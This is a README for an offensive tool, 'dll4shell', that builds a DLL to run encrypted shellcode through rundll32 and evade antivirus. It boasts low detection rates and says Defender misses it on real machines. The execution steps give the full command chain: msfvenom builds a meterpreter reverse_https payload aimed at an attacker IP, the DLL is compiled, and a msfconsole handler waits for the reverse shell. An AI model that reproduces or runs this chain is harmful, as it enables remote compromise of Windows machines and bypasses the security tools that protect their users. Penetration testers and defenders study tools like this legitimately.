

### C++ shellcode launcher

Dll generator designed to run the shellcode via rundll32. Based on the "charlotte" tool and research mentioned in external references. Current features include:

* Using classic chain VirtualAlloc - CreateThread to execute the code in rundll32 process.
* Shellcode XOR and Cezar / Shift encryption.
* Simple python script to do the magic.
* Random names of functions and params for obfuscation.

As of now, the dll created with meterpreter code is detected by 5 / 65 vendors. Although VirusTotal suggests Defender detects the payload, on the real machines it does not.



### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

### External references

* [charlotte](https://github.com/9emin1/charlotte)
* [Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)